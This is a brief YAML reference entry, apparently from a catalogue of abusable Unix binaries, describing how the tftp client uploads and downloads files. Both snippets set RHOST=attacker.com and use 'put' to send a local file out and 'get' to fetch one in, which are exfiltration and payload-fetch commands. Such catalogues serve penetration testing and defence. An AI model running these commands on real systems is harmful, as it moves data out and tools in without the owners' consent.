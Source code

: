 ```yaml
---
functions:
  upload:
    - description: Send local file to a TFTP server.
      code: |
        RHOST=attacker.com
        tftp $RHOST
        put file_to_send
  download:
    - description: Fetch a remote file from a TFTP server.
      code: |
        RHOST=attacker.com
        tftp $RHOST
        get file_to_get
---
```

